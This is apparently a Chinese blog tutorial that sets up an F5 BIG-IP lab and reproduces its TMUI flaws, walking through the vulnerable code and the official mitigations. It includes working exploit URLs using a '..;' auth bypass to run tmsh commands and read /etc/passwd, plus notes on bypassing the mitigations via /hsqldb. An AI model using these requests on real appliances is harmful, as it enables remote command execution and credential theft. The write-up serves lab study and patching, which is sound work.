# F5 big-ip从环境搭建到漏洞复现

### 1、 注册账号

去F5官网下载90天试用版本。 地址：[https://f5.com/zh/products/trials/product-trials](https://f5.com/zh/products/trials/product-trials)

打开网站后，选择BIG-IP云版本



 

点击后，按照页面中的指示开始注册账号并申请key

```text
1. 登录或注册
使用 F5 支持 ID 登录，并申请试用版密钥。
若无 F5 支持帐户，请单击下方链接进行创建。

2. 申请密钥
登录后，请选择 BIGIP 云版本及所需的许可数量。订单将通过您创建支持帐户时使用的电子邮件发送给您。

3. 下载软件
您可在等待密钥期间下载软件。只需选择虚拟机监控程序（见下文）开始下载即可。

4. 启动
请使用密钥解锁试用版，并开始在自己的环境中设置 BIG-IP 云版本。使用我们的其中一种云解决方案模板即可快速开始配置。
```

注册地址如下：[https://login.f5.com/resource/login.jsp?ctx=719748](https://login.f5.com/resource/login.jsp?ctx=719748)

若没有账号，点击页面中的`create one`即可开始注册



因为我已经注册了，所以下面的步骤就不显示了，总之第一步，会输入邮箱地址




之后在邮箱中会出现一个设置密码的链接



（鬼知道中间省略了多少个步骤）

按照提示申请完秘钥之后，会收到这样一封邮件：



### 2、 导入虚拟机

下载BIG-IP的.ova文件，这里因为在外面下载的太慢了，百度链接如下：  
14.1.2版本OVA文件：  
链接：[https://pan.baidu.com/s/1VFHVwLhiDsW3W2x7fwcUuw](https://pan.baidu.com/s/1VFHVwLhiDsW3W2x7fwcUuw)   
提取码：rbtk

14.1.2版本VMDK文件：（打开虚拟机，配置IP后可**直接**漏洞利用，root,admin/Admin!@\#456）  
链接：[https://pan.baidu.com/s/1FdWZg9lf7dF109pLxedn7A](https://pan.baidu.com/s/1FdWZg9lf7dF109pLxedn7A) 提取码：ali4

下载成功后，导入到虚拟机，开机即可

开机后，会提示输入密码，前两次都是默认账号密码：root/default



之后修改密码，要求：必须包含大小写字母与数字，符号，长度不得小于8位，此处可设置Admin!@\#456

设置该虚拟机的网络，网卡任意模式即可 （原有好几块网卡，可以删除一些，最后只剩一张）



在/config目录下，输入config，设置IP地址，默认选择IPV4，然后连续按两次回车，等待命令行出现即可



设置好IP地址后，建议使用nmap等端口扫描工具扫一下，毕竟我的环境和小伙伴的环境BIGIP的运行端口都不一样

打开网站，用户名与密码不是默认的admin/admin（那是高版本的），而是刚设置的Admin!@\#456

### 3、 激活big-ip

此时网站处于未激活状态，可点击NEXT进行激活



输入申请到的邮箱里的registration key.点击Next



将1中的内容复制到2中新开的网页中并NEXT，最后将生成的内容粘贴到3中即可





重新登录，即可激活成功

### 4、 漏洞利用

```text
RCE:
http://IP:PORT/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=whoami

文件读取：
http://IP:PORT/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```

效果图如下：




### 5、漏洞分析

**F5 Tmsh命令执行**

创建bash脚本:对应的F5的命令为command后面内容 请求路径为下图:


URL中存在../;绕过登录验证，这个是属于Tomcat对URI解析差异导致绕过了原有的权限校验，导致可以直 接访问到tmshCmd.jsp, 对应代码:tmshCmd\_jsp.java 文件 cmd参数直接从请求中获取。


跟进WorkspaceUtils类中runTmshCommand方法，从导入包中寻找com.f5.tmui.locallb.handler.workspace.WorkspaceUtils对应的文件。


在lib中找到对应jar包，反编译：


紧接着上文runTmshCommand方法，可以看到在38行处，做了命令判断，命令被分割后，仅允许 create，delete，list，modify等开头的命令。


跟进Syscall.callElevated方法，调用了call方法：


可以看到，args放到了ObjectManager里面，通过DataObject\[\] rs = om.queryStats\(query\);这行代码 把执行的命令的结果返回。


**F5 任意文件写入**

请求路径：


对应的jsp代码文件：


跟进对应的save方法，可以看到参数一路传递，fileName为路径，content为内容，最终通过 writer.println写入。


**F5任意文件读取**

请求路径：


对应的jsp代码文件：


对应具体实现方法:


### 6、修复方案

7 月 7 日更新：

官方建议可以通过以下步骤暂时缓解影响（临时修复方案）

1\) 使用以下命令登录对应系统：tmsh  
2\) 编辑 httpd 组件的配置文件；  
edit /sys httpd all-properties  
3\) 文件内容如下 include ' &lt;LocationMatch "...;."&gt; Redirect 404 / &lt;/LocationMatch&gt; '  
4\) 按照如下操作保存文件；  
按下 ESC 并依次输入：wq  
5\) 执行命令刷新配置文件；  
save /sys config  
6\) 重启 httpd 服务。  
restart sys service httpd 并禁止外部IP对 TMUI 页面的访问。

7 月 7 日更新： 官方初版安全通告里给出的临时缓解方案是在 httpd 配置文件中加入如下部分，以禁止请求的 url 路径里出现 ..; 进行路径跳转：

```text
include '<LocationMatch ".*\.\.;.*">Redirect 404 /</LocationMatch>'
```

然而却可以通过 /hsqldb; 无需跳转，去直接请求 org.hsqldb.Servlet，进一步执行 Java 代码。这种漏洞利用的方式，可以绕过上述配置规则。

7 月 9 日更新：

官方安全通告里给出的第二版临时缓解方案中在 httpd 配置文件中加入规则配置如下，以禁止请求的 url 路径里出现 ; 进行授权认证绕过：

```text
include '<LocationMatch ";">Redirect 404 /</LocationMatch>'
```

然而却可以通过 /hsqldb%0a 的请求方式，再次绕过以往的漏洞缓解规则，去直接请求org.hsqldb.Servlet，进一步执行 Java 代码。

